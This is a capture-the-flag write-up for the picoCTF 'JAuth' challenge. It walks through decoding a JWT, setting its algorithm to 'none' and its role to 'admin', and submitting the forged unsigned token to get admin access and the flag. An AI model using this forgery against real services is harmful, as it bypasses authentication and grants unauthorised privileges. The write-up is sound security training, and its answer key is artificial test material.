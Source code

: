 # **_JAuth_**
## Description
>Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?
You can login as test with the password Test123! to get started.

## Solution
Login with the given `test` username and password, there is a  `Json Web Token`, also known as `JWT`, which is used to verify identity, 
Decode it

`alg` states the cryptographic algorithm used to sign the token, change it's value to `none` so it won't check the signature
```console
❯ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}%
```
Note that there is a `role` set as `user`, which identifies the login privilege, set it to `admin` to get admin access
```console
❯ echo "eyJhdXRoIjoxNjU4MDM3Njk1MDMyLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDMuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjU4MDM3Njk1fQ" | base64 -d
{"auth":1658037695032,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36","role":"user","iat":1658037695}base64: invalid input
```
Last part is the signature, so it can't be decoded
```
❯ echo "JSEYU1qIJFimnegRY0IoWjj3MHQle8d3zEblGMeSZFE" | base64 -d
%!SZ�$X���cB(Z8�0t%{�w�F�ǒdQbase64: invalid input
```
Generate a `JWT` with the modified value
```console
❯ echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
❯ echo -n '{"auth":1658037695032,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36","role":"admin","iat":1658037695}' | base64
eyJhdXRoIjoxNjU4MDM3Njk1MDMyLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEw
LjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENo
cm9tZS8xMDMuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY1ODAz
NzY5NX0=
```
Combine them into `JWT` format
>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjU4MDM3Njk1MDMyLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMDMuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY1ODAzNzY5NX0.

Put the value in `token` and get the flag
>picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}

